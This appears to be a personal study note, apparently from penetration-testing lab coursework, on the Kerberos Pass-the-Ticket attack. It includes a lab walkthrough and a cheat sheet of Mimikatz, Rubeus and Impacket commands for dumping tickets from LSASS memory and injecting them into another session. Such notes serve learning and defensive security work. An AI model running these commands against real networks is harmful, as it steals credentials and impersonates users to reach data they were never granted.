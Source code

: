 public:: true

- If we find a TGS which provides access to domain services (or resources) we currently have no access, then we can try to import it to our active session and use it to **impersonate the user** for which that TGS was generated.
	- Lets pretend we are *Jen*, a local administrator in the *CLIENT76* (a domain joined computer) and we'd like to access the remote folder *\\web04\backup* for which *Jen* has no access.
	  logseq.order-list-type:: number
		- ```cmd
		  C:\Windows\system32> whoami
		  corp\jen
		  C:\Windows\system32> ls \\web04\backup
		  ls : Access to the path '\\web04\backup' is denied.
		  ```
	- Luckily, *Dave* has previously logged in *CLIENT76* and used it to access *\\web04\backup* (for which he has access to).
	  logseq.order-list-type:: number
	- As we know, TGT and TGS are [kept in-memory](((6564d528-7b7b-4d33-b49c-36fe2d615343))) (stored in [LSASS](((65663778-526d-48d4-a36d-3177ea335c2a))) process' memory). So, we can use [[Mimikatz]] to export *Dave*'s TGS for *\\web04\backup* and re-import it into *Jen*'s session.
	  logseq.order-list-type:: number
		- ```mimikatz
		  privilege::debug
		  sekurlsa::tickets /export
		  [...]
		  kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
		  ```
	- At this point we (*Jen*) should be able to access *\\web04\backup* by impersonating *Dave*.
	  logseq.order-list-type:: number
		- ```cmd
		  C:\Tools> ls \\web04\backup
		  
		  Mode                LastWriteTime         Length Name
		  ----                -------------         ------ ----
		  -a----        9/13/2022   2:52 AM              0 backup_schemata.txt
		  ```
- #+BEGIN_TIP
  Please note that successfully exported **TGT can only be used** on the machine it was created for. Instead, **TGS can be imported to a different user's session** on the same computer or moved to elsewhere in the network and **imported in a different computer**.
  #+END_TIP
- #+BEGIN_TIP
  If the service tickets belong to the current user, then **no administrative privileges are required**.
  #+END_TIP
- Generic Pass-The-Ticket commands
	- Harvest tickets
		- With [[Mimikatz]]
		  id:: 656869d9-c249-4f49-9165-bb1034fa8178
			- id:: 65686a95-2f8d-4c16-ba29-4ec6ce616cb4
			  ```
			  > sekurlsa::tickets /export
			  ```
		- With [[Rubeus]]
		  id:: 656869e0-2bb7-4449-868f-abbb5dda4be4
			- ```powershell
			  Rubeus.exe dump
			  ```
			- Since Rubeus returns base64 encoded tickets you can then save them in the **kirbi** format as follow
			  ```powershell
			  [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<base64_ticket>"))
			  ```
	- Pass tickets to different tools
		- [[Impacket]]
			- ```bash
			  # Set the ticket for impacket use
			  export KRB5CCNAME=<TGT_ccache_file_path>
			  ```
		- [[Mimikatz]]
			- ```
			  > kerberos::ptt <ticket_kirbi_file>
			  ```
		- [[Rubeus]]
			- ```powershell
			  Rubeus.exe ptt /ticket:<ticket_kirbi_file>
			  ```